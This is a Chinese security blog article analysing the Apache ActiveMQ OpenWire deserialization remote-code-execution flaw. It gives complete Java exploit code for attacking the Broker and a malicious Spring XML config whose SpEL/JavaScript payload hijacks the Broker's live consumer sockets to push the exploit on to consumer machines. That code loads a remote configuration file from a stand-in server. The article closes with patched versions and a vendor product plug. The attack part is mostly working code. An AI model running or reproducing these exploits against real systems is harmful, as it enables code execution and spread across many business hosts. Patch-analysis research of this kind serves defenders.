








# Java安全攻防之ActiveMQ从Broker到Consumer

原创 yulegeyu

[↓↓↓](javascript:)  
  
实战攻防  
  
[↑↑↑](javascript:)

*2023-10-31 18:15* *发表于北京*

收录于合集

#红蓝对抗 5 个

#安全攻防 3 个

**前言**

  

  

上周ActiveMQ的漏洞利用已经有了多篇文章分析了，比较麻烦的在于公开的文章都是通过修改activemq代码实现的漏洞利用。所以我们也分析了这个漏洞，希望能够写出更加简单的exploit。

**漏洞分析**

  

  

漏洞分析文章网上都比较多了，简单过一下。从补丁中可以发现https://github.com/apache/activemq/commit/3eaf3107f4fb9a3ce7ab45c175bfaeac7e866d5b，主要修改了BaseDataStreamMarshaller类的createThrowable方法，在漏洞版本中没有校验class类型，直接调用了String构造方法。

```plain
private Throwable createThrowable(String className, String message) {
    try {
        Class clazz = Class.forName(className, false, BaseDataStreamMarshaller.class.getClassLoader());
        Constructor constructor = clazz.getConstructor(String.class);
        return (Throwable)constructor.newInstance(message);
    } catch (Throwable var5) {
        return new Throwable(className + ": " + message);
    }
}
```

其中ConnectionErrorMarshaller、MessageAckMarshaller、ExceptionResponseMarshaller中的tightUnmarshal反序列化方法中都调用到了tightUnmarsalThrowable方法，

```plain
public void tightUnmarshal(OpenWireFormat wireFormat, Object o, DataInput dataIn, BooleanStream bs) throws IOException {
    super.tightUnmarshal(wireFormat, o, dataIn, bs);
    ExceptionResponse info = (ExceptionResponse)o;
    info.setException(this.tightUnmarsalThrowable(wireFormat, dataIn, bs));
}
```

tightUnmarshal是每个数据类型的入口反序列化方法，在根据数据类型获取到对应的反序列化方法后就进入到tightUnmarshal方法进行反序列化，进而触发到tightUnmarsalThrowable

```plain
public Object doUnmarshal(DataInput dis) throws IOException {
    byte dataType = dis.readByte();
    if (dataType != 0) {
        DataStreamMarshaller dsm = this.dataMarshallers[dataType & 255];
        if (dsm == null) {
            throw new IOException("Unknown data type: " + dataType);
        } else {
            Object data = dsm.createObject();
            if (this.tightEncodingEnabled) {
                BooleanStream bs = new BooleanStream();
                bs.unmarshal(dis);
                dsm.tightUnmarshal(this, data, dis, bs);
            } else {
                dsm.looseUnmarshal(this, data, dis);
            }

            return data;
        }
    } else {
        return null;
    }
}
```

在tightUnmarsalThrowable方法中，最终触发到了createThrowable方法。

```plain
protected Throwable tightUnmarsalThrowable(OpenWireFormat wireFormat, DataInput dataIn, BooleanStream bs) throws IOException {
    if (!bs.readBoolean()) {
        return null;
    } else {
        String clazz = this.tightUnmarshalString(dataIn, bs);
        String message = this.tightUnmarshalString(dataIn, bs);
        Throwable o = this.createThrowable(clazz, message);
```

class和message都是来自于反序列化的结果。意味着我们能够调用任意类的String构造方法，刚好ActiveMQ内置了Sping，配合Spring常用的一个利用类org.springframework.context.support.ClassPathXmlApplicationContext来加载远程的配置文件，实现SPEL表达式注入代码执行RCE。

**漏洞利用**

  

  

正常场景下，生产者只能发送Message给Broker。为了发送Response给Broker肯定需要修改下ActiveMQ的代码，所以大部分利用都是修改代码实现的。为了更简单的实现利用，简单看了看ActiveMQ的协议，构造了下Exploit。ExceptionResponseMarshaller根据名字很容易判断出是ExceptionResponse的序列化/反序列化方法。

```plain
public class ExceptionResponse extends Response {
    public static final byte DATA_STRUCTURE_TYPE = 31;
```

获取到ExceptionResponse的DATA\_STRUCTURE\_TYPE为31，整体的协议比较简单，以下为攻击代码。

```plain
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeInt(1);
dataOutput.writeBoolean(true);
dataOutput.writeBoolean(true);
dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeBoolean(true);
dataOutput.writeUTF("http://localhost:8000/abcd");

Socket socket = new Socket("localhost", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

在看代码中发现ActiveMQ中存在一个tightEncodingEnabled的配置，启用tightEncodingEnabled配置后，ActiveMQ会使用一种紧凑的消息编码方式，它采用了一些技巧，例如采用更紧凑的数据结构、二进制编码等，以减少消息的大小。

很明显如果目标启用了tightEncodingEnabled的话，上面的攻击代码肯定需要修改。经过测试发现默认Broker未打开该配置，Consumer打开该配置。

这里也给出tightEncodingEnabled场景下，攻击Broker的利用代码

```plain
ByteArrayOutputStream bos = new ByteArrayOutputStream();
DataOutput dataOutput = new DataOutputStream(bos);
dataOutput.writeInt(0);
dataOutput.writeByte(31);

BooleanStream bs = new BooleanStream();
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(true);
bs.writeBoolean(false);
bs.writeBoolean(true);
bs.writeBoolean(false);

bs.marshal(dataOutput);

dataOutput.writeUTF("bb");
dataOutput.writeUTF("aa");

dataOutput.writeUTF("org.springframework.context.support.ClassPathXmlApplicationContext");
dataOutput.writeUTF("http://localhost:8000/abcd");

bos.flush();

Socket socket =new Socket("127.0.0.1", 61616);
OutputStream socketOutputStream = socket.getOutputStream();
socketOutputStream.write(bos.toByteArray());
socketOutputStream.close();
```

  

**攻击Consumer**

  

  

写完Broker的利用后，又开始思考是否能对Consumer进行攻击，因为漏洞是出现在反序列化阶段的，按理来说Consumer也会存在该漏洞的。且通常来说，Consumer才是部署业务的机器会比起Broker更加核心，通常一个Broker中会接入多个Consumer，如果能控制Consumer那么很可能一次性能控制大量业务机器。但是Consumer在实际使用中，并不会监听端口，那么怎么来给消费者发送恶意数据呢？

ActiveMQ有两种常用的消息模型，点对点、发布/订阅模式。无论是哪种模式，在实际业务中为了持续消费，通常会设置一个监听器，同时让消费者和Broker保持长链接。那么思路就有了，在控制了Broker后，获取到Broker和消费已建立的Socket链接，给消费推恶意数据进行反序列化按理是可以实现利用的。

所以首先要找到已经ESTABLISH的Socket链接org.apache.activemq.broker.BrokerRegistry#getInstance

```plain
public class BrokerRegistry {
    private static final Logger LOG = LoggerFactory.getLogger(BrokerRegistry.class);
    private static final BrokerRegistry INSTANCE = new BrokerRegistry();
    private final Object mutex = new Object();
    private final Map<String, BrokerService> brokers = new HashMap();

    public BrokerRegistry() {
    }

    public static BrokerRegistry getInstance() {
        return INSTANCE;
    }
```

在该方法中存在一个单例，可以获取到BrokerRegistry，进而获取到broker实例。在broker实例里面简单找了找，很轻松的找到了已经建立的消费链接，\[Active Transport\]的即是。



获取到Socket后，直接开推恶意数据。这里通过先让Broker加载远程配置文件在Broker上实现SPEL代码执行后，通过代码执行获取消费者socket推送恶意数据，加载远程配置文件。上面也说到了消费者默认开启了tightEncodingEnabled，所以需要使用tightEncodingEnabled的Exp。经过测试，漏洞利用后不会将消费打挂。

```plain
<?xml version="1.0" encoding="UTF-8"?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:context="http://www.springframework.org/schema/context"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans-4.0.xsd
            http://www.springframework.org/schema/context http://www.springframework.org/schema/context/spring-context-4.0.xsd">

    <context:property-placeholder ignore-resource-not-found="false" ignore-unresolvable="false"/>

    <bean class="java.lang.String">
        <property name="String" value="#{T(javax.script.ScriptEngineManager).newInstance().getEngineByName('js').eval(&quot;function getunsafe() {var unsafe = java.lang.Class.forName('sun.misc.Unsafe').getDeclaredField('theUnsafe');unsafe.setAccessible(true);return unsafe.get(null);} var unsafe = getunsafe(); brokerRegistry = org.apache.activemq.broker.BrokerRegistry.getInstance();brokers = brokerRegistry.getBrokers();for(key in brokers){   brokerService = brokers.get(key);  try{ f = brokerService.getClass().getDeclaredField('shutdownHook'); }catch(e){f = brokerService.getClass().getSuperclass().getDeclaredField('shutdownHook');}   f.setAccessible(true);   shutdownHook = f.get(brokerService);   threadGroup = shutdownHook.getThreadGroup();   f = threadGroup.getClass().getDeclaredField('threads'); threads = unsafe.getObject(threadGroup, unsafe.objectFieldOffset(f)); for(key in threads){       thread = threads[key];       if(thread == null){           continue;       }       threadName = thread.getName();       if(threadName.startsWith('ActiveMQ Transport: ')){           f = thread.getClass().getDeclaredField('target');                      tcpTransport = unsafe.getObject(thread, unsafe.objectFieldOffset(f));           f = tcpTransport.getClass().getDeclaredField('socket');           f.setAccessible(true);           socket = f.get(tcpTransport);           bos = new java.io.ByteArrayOutputStream();           dataOutput = new java.io.DataOutputStream(bos);           dataOutput.writeInt(1);           dataOutput.writeByte(31);    bs = new org.apache.activemq.openwire.BooleanStream();    bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(true);  bs.writeBoolean(false);   bs.writeBoolean(true); bs.writeBoolean(false);  bs.marshal(dataOutput); dataOutput.writeUTF('bb');  dataOutput.writeUTF('aa');  dataOutput.writeUTF('org.springframework.context.support.ClassPathXmlApplicationContext');  dataOutput.writeUTF('http://localhost:8000/dddd');  dataOutput.writeShort(0);  socketOutputStream = socket.getOutputStream();           socketOutputStream.write(bos.toByteArray());         }   }   }&quot;)}"/>
    </bean>
</beans>
```

**点对点消费测试**  

```plain
ConnectionFactory connectionFactory = new ActiveMQConnectionFactory(ActiveMQConnection.DEFAULT_USER,
        ActiveMQConnection.DEFAULT_PASSWORD, "tcp://localhost:61616");

Connection connection = connectionFactory.createConnection();
connection.start();
Session session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
Destination destination = session.createQueue("tempQueue");
MessageConsumer consumer = session.createConsumer(destination);
consumer.setMessageListener(new MessageListener() {
    @Override
    public void onMessage(Message message) {

        try {
            message.acknowledge();
            TextMessage om = (TextMessage) message;
            String data = om.getText();
            System.out.println(data);
        } catch (JMSException e) {
            e.printStackTrace();
        }
    }
});
System.in.read();
session.close();
connection.close();
```

运行Exploit后，消费触发了漏洞。





**发布/订阅消费测试**

```plain
public class TopicConsumer {

    public void consumer() throws JMSException, IOException {
        ConnectionFactory factory = null;
        Connection connection = null;
        Session session = null;
        MessageConsumer consumer = null;
        try {
            factory = new ActiveMQConnectionFactory("admin","admin","tcp://localhost:61616");
            connection = factory.createConnection();

            connection.start();
            session = connection.createSession(false, Session.AUTO_ACKNOWLEDGE);
            Destination destination = session.createTopic(TopicProducer.QUEUE_NAME);
            consumer = session.createConsumer(destination);

            consumer.setMessageListener(new MessageListener() {
                @Override
                public void onMessage(Message message) {

                    try {
                        TextMessage om = (TextMessage) message;
                        String data = om.getText();
                        System.out.println(data);
                    } catch (JMSException e) {
                        e.printStackTrace();
                    }
                }
            });
        } catch(Exception ex){
            throw ex;
        }
    }

    public static void main(String[] args){
        TopicConsumer consumer = new TopicConsumer();
        try{
            consumer.consumer();
        } catch (Exception ex){
            ex.printStackTrace();
        }
    }
}
```



**SpringBoot-activemq 消费测试**

(spring-boot-starter-activemq 最新版3.1.5依然还没修复该漏洞)





**修复方案**

  

  

1.  更新ActiveMQ至已修复版本，具体修复版本号如下：
    

5.18.3、5.17.6、5.16.7、5.15.16

2.  安装靖云甲，可天然免疫该漏洞攻击：
    





恶意请求已被靖云甲阻断。 

**参考**

  

  

1.  https://xz.aliyun.com/t/12929
    
2.  https://www.cnblogs.com/sam-uncle/p/10990324.html
    

  

  

（yulegeyu@边界无限烛龙实验室供稿）

  


**实战攻防**

数字安全网络攻防技术工作者联盟，专注于分享网络攻防新趋势、新特点、新技术、新手段以及新产品的技术联盟，包括但不限于攻防心得、渗透测试、漏洞挖掘和资源分享。以技术的视角，透析网络攻防的方方面面，为数字安全事业建言献策、保驾护航。欢迎不吝分享！

9篇原创内容

公众号
